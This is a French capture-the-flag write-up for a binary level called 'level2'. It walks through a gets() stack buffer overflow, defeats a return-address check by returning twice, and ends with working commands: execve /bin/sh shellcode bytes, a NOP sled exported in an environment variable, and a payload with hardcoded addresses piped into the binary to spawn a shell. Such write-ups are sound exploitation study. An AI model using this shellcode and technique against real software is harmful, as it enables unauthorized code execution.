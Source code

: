 
## Level 2

En dessasemblant le binaire level2, on trouve deux fonctions:

`main()` qui fait un simple appel a `p()`.

`p()` déclare un tableau de 76 bytes.
La fonction va lire sur l'entrée standart avec l'appel `gets()`qui est vulnérable, et stocker le resultat dans ce
tableau `src`.

![image](https://user-images.githubusercontent.com/29956389/94676129-271acc00-031b-11eb-8e8e-b462d6902a54.png)

Ensuite un pointeur est déclaré a l'adresse `[ebp + 0x4]`.
Une opération binaire est éffectué sur cette adresse, une condition est ensuite vérifié:

Si la condition est vrai, le programme affiche l'adresse du pointeur et quitte.

Si la condition est fausse, la chaine de caractère est affiché et copié, puis la
fonction quitte.

Le pointeur [ebp + 0x4] est en dehors de notre stackframe, la condition vérifie donc si un overflow a modifié l'adresse a cette adresse, qui est l'adresse de retour a laquelle la fonction sautera a la fin de l'execution.

Comme la condition vérifie que le premier byte qui overflow le tableau commence
par `0xb (adresse de stack)`, on ne peut pas directement placer l'adresse de notre
nopsled dedans (Qui serait d'habitude soit sur la stack, soit dans l'environement).

Par contre, on peut y déclarer toute autre valeur, comme par exemple l'adresse
de l'instruction `return` de cette fonction meme fonction. Cela nous permetra de retourner deux fois de la fonction: une premiere fois pour passer la verification, puis une deuxieme fois pour aller a notre shellcode. c'est pourquoi il faut bien ecrire l'adresse du millieu de notre nopsled ensuite.

Le calcul a effectuer pour avoir l'adresse du millieu de notre nopsled est le suivant : 
 - Adresse variable SHELLCODE + (Adresse variable SHELLCODE+ 1 - Addresse variable SHELCODE) / 2
 
 La commande pour examiner l'environnement: 
 
(gdb)> x/4s *((char**)environ)

Commande a laquelle nous ajoutons +1 jusqu'a trouver l'adresse de la variable SLEDCODE, puis nous cherchons l'adresse de la variable suivante.

Soit `[80 bytes pour remplir le buffer] + [Adresse instruction ret de la fonction p()] + [Adresse millieu du Nopsled]`.

En code:

`echo -ne '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80' > /tmp/shellcode.bin`

`export SLEDCODE=$(python -c 'print "\x90"*128')$(cat /tmp/shellcode.bin)`

`python -c 'print "B"*80 + "\x3e\x85\x04\x08" + "\x10\xf9\xff\xbf"' > /tmp/buffer`

`cat /tmp/buffer - | ./level2`

Et on obtient un shell!
